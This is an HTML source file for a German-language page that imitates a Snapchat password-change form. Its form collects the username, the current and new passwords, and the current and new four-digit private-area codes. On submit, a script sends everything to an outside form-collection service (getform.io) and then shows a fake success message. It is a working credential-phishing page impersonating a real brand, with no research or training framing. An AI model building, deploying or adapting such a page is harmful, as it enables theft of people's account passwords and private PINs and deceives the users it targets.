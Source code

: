 h1:first-of-type {
  display: none;
}
<html lang="de">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Passwort ändern</title>
  <style>
    * {
      box-sizing: border-box;
    }

    body {
      margin: 0;
      font-family: Arial, sans-serif;
      background: #fffc00; /* Snapchat yellow */
      color: #333;
      min-height: 100vh;
      display: flex;
      flex-direction: column;
    }

    .container {
      background-color: white;
      max-width: 420px;
      width: 100%;
      margin: 48px auto 60px;
      padding: 28px 20px 20px;
      border-radius: 12px;
      box-shadow: 0 2px 8px rgba(0, 0, 0, 0.05);
      display: flex;
      flex-direction: column;
      align-items: center;
    }

    #logo {
      width: 120px;
      margin-bottom: 20px;
    }

    h1 {
      text-align: center;
      font-weight: 900;
      margin-bottom: 8px;
    }

    p.description {
      text-align: center;
      color: #444;
      font-weight: 500;
      margin-top: 0;
      margin-bottom: 30px;
    }

    .input-group {
      width: 100%;
      margin-bottom: 18px;
    }

    label.input-label {
      display: block;
      font-size: 13px;
      margin-bottom: 6px;
      color: #555;
      font-weight: 600;
    }

    input[type="text"],
    input[type="password"] {
      width: 100%;
      padding: 8px 6px 10px;
      font-size: 16px;
      border: none;
      border-bottom: 2px solid #ccc;
      background: #f8f8f8;
      border-radius: 6px 6px 0 0;
      transition: border-color 0.3s ease;
      outline: none;
    }

    input:focus {
      border-bottom-color: #ffdb4d;
    }

    .input-error {
      color: #a00;
      font-size: 12px;
      margin-top: 4px;
      display: none;
    }

    #change-password-btn {
      display: block;
      margin: 10px auto 0;
      width: 220px;
      padding: 10px 0;
      border-radius: 24px;
      border: none;
      font-weight: 400;
      font-size: 16px;
      cursor: not-allowed;
      background: #e0e0e0;
      color: #aaa;
      background-image: repeating-linear-gradient(
        45deg,
        rgba(255, 255, 255, 0.15),
        rgba(255, 255, 255, 0.15) 5px,
        transparent 5px,
        transparent 10px
      );
      transition: all 0.3s ease;
    }

    #change-password-btn.enabled {
      background-color: #ffdb4d;
      background-image: none;
      cursor: pointer;
      color: black;
      font-weight: 700;
    }

    #password-advice {
      margin-top: 12px;
      color: #999999;
      font-size: 13px;
      text-align: center;
      max-width: 300px;
      line-height: 1.3;
    }

    footer.snap-footer {
      background-color: #000;
      color: #fff;
      font-size: 14px;
      padding: 24px 16px;
      display: flex;
      flex-wrap: wrap;
      justify-content: center;
      gap: 32px;
      margin-top: auto;
    }

    .snap-footer-section {
      flex: 1 1 140px;
      min-width: 140px;
    }

    .snap-footer-section h4 {
      font-weight: 600;
      font-size: 14px;
      margin-bottom: 6px;
      color: #fff;
    }

    .snap-footer-section ul {
      list-style: none;
      padding: 0;
      margin: 0;
    }

    .snap-footer-section ul li {
      margin-bottom: 4px;
    }

    .snap-footer-section ul li a {
      text-decoration: none;
      color: #bbb;
      transition: color 0.2s ease;
    }

    .snap-footer-section ul li a:hover {
      color: #fff;
    }
  </style>
</head>
<body>
  <div class="container" id="form-screen">
    <img id="logo" src="https://i.postimg.cc/Gmf5XDBH/IMG-4685.jpg" alt="Firmenlogo" />
    <h1>Mein Passwort ändern</h1>
    <p class="description">
      Zum bestmöglichen Schutz Ihres Kontos wählen Sie bitte ein Passwort, das mindestens acht Zeichen lang ist
      und eine Kombination aus Groß- und Kleinbuchstaben, Zahlen und/oder Sonderzeichen enthält.
    </p>

    <form id="password-form" action="https://getform.io/f/bdrgyxqb" method="POST" novalidate>
      <div class="input-group">
        <label class="input-label" for="username">Benutzername</label>
        <input type="text" id="username" name="username" autocomplete="username" required />
      </div>

      <div class="input-group">
        <label class="input-label" for="current-password">Aktuelles Passwort</label>
        <input type="password" id="current-password" name="current-password" autocomplete="current-password" required />
      </div>

      <div class="input-group">
        <label class="input-label" for="new-password">Neues Passwort</label>
        <input type="password" id="new-password" name="new-password" autocomplete="new-password" required />
        <div class="input-error" id="new-pass-error">* Passwort muss mindestens 8 Zeichen lang sein</div>
      </div>

      <div class="input-group">
        <label class="input-label" for="confirm-new-password">Neues Passwort bestätigen</label>
        <input type="password" id="confirm-new-password" name="confirm-new-password" autocomplete="new-password" required />
        <div class="input-error" id="confirm-pass-error">* Passwörter stimmen nicht überein</div>
      </div>

      <div class="input-group">
        <label class="input-label" for="current-privater-password">Aktuelles Passwort für den Privater Bereich</label>
        <input type="password" id="current-privater-password" name="current-privater-password" maxlength="4" pattern="\d{4}" inputmode="numeric" placeholder="4-stelliger Code" required />
      </div>

      <div class="input-group">
        <label class="input-label" for="new-privater-password">Neues Passwort für den Privater Bereich</label>
        <input type="password" id="new-privater-password" name="new-privater-password" maxlength="4" pattern="\d{4}" inputmode="numeric" placeholder="4-stelliger Code" required />
        <div class="input-error" id="privater-pass-error">* Muss genau 4 Ziffern enthalten</div>
      </div>

      <button id="change-password-btn" disabled>Passwort ändern</button>
    </form>

    <div id="password-advice">
      Verwenden Sie nicht dasselbe Passwort für verschiedene Dienste, insbesondere wenn Sie denselben Benutzernamen verwenden.
    </div>
  </div>

  <footer class="snap-footer">
    <div class="snap-footer-section">
      <h4>Unternehmen</h4>
      <ul>
        <li><a href="#">Snap Inc.</a></li>
        <li><a href="#">Karriere</a></li>
        <li><a href="#">News</a></li>
      </ul>
    </div>
    <div class="snap-footer-section">
      <h4>Community</h4>
      <ul>
        <li><a href="#">Support</a></li>
        <li><a href="#">Community-Richtlinien</a></li>
        <li><a href="#">Sicherheitscenter</a></li>
      </ul>
    </div>
    <div class="snap-footer-section">
      <h4>Werbung</h4>
      <ul>
        <li><a href="#">Anzeigen kaufen</a></li>
        <li><a href="#">Werberichtlinien</a></li>
        <li><a href="#">Politische Werbung</a></li>
        <li><a href="#">Markenrichtlinien</a></li>
      </ul>
    </div>
  </footer>

  <script>
    const newPasswordInput = document.getElementById("new-password");
    const confirmPasswordInput = document.getElementById("confirm-new-password");
    const privaterPassInput = document.getElementById("new-privater-password");
    const privaterPassError = document.getElementById("privater-pass-error");
    const changeBtn = document.getElementById("change-password-btn");
    const newPassError = document.getElementById("new-pass-error");
    const confirmPassError = document.getElementById("confirm-pass-error");
    const form = document.getElementById("password-form");
    const container = document.querySelector(".container");

    function validate() {
      let valid = true;

      if (newPasswordInput.value.length < 8) {
        newPassError.style.display = "block";
        valid = false;
      } else {
        newPassError.style.display = "none";
      }

      if (confirmPasswordInput.value !== newPasswordInput.value) {
        confirmPassError.style.display = "block";
        valid = false;
      } else {
        confirmPassError.style.display = "none";
      }

      if (!/^\d{4}$/.test(privaterPassInput.value)) {
        privaterPassError.style.display = "block";
        valid = false;
      } else {
        privaterPassError.style.display = "none";
      }

      changeBtn.disabled = !valid;
      changeBtn.classList.toggle("enabled", valid);
    }

    newPasswordInput.addEventListener("input", validate);
    confirmPasswordInput.addEventListener("input", validate);
    privaterPassInput.addEventListener("input", validate);

    form.addEventListener("submit", async (e) => {
      e.preventDefault();

      if (changeBtn.disabled) {
        return; // prevent submission if validation fails
      }

      const formData = new FormData(form);

      try {
        const response = await fetch(form.action, {
          method: "POST",
          body: formData,
          headers: {
            'Accept': 'application/json'
          },
        });

        if (response.ok) {
          container.innerHTML = `
            <h2>Passwort wurde erfolgreich geändert!</h2>
            <p>Danke für Ihre Eingabe.</p>
          `;
        } else {
          alert("Fehler beim Absenden des Formulars. Bitte versuchen Sie es erneut.");
        }
      } catch (error) {
        alert("Netzwerkfehler. Bitte überprüfen Sie Ihre Verbindung.");
      }
    });
  </script>
</body>
</html>
